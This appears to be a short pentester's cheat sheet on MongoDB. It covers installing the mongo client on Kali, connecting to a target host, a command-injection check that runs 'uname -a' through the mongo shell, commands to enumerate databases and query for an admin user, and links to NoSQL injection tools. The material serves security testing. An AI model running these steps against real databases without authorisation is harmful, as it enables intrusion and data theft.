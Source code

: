 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

[https://docs.mongodb.com/manual/tutorial/install-mongodb-on-debian/](https://docs.mongodb.com/manual/tutorial/install-mongodb-on-debian/)

```bash - kali
wget -qO - https://www.mongodb.org/static/pgp/server-5.0.asc | sudo apt-key add -
```

```bash - kali
sudo apt-get install gnupg
```

```bash - kali
wget -qO - https://www.mongodb.org/static/pgp/server-5.0.asc | sudo apt-key add -
```

```bash - kali
echo "deb http://repo.mongodb.org/apt/debian buster/mongodb-org/5.0 main" | sudo tee /etc/apt/sources.list.d/mongodb-org-5.0.list
```

```bash - kali
sudo apt-get update
```

```bash - kali
sudo apt-get install -y mongodb-org
```

```bash - kali
mongo "mongodb://$TARGET:27017"
```

```bash - kali
mongo "mongodb://username@$TARGET:27017"
```

#### Command Injection Check
https://cxsecurity.com/issue/WLB-2013030212
```bash - kali
run("uname","-a")
```

#### Database enumeration
```SQL
show dbs
```

```SQL
use $DATABASE
```

```SQL
show collections
```

```SQL
db.<COLLECTION_NAME>.find()
```

```SQL
db.current.find({"username":"admin"})
```

---

#### Tools
https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration

https://github.com/C4l1b4n/NoSQL-Attack-Suite


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
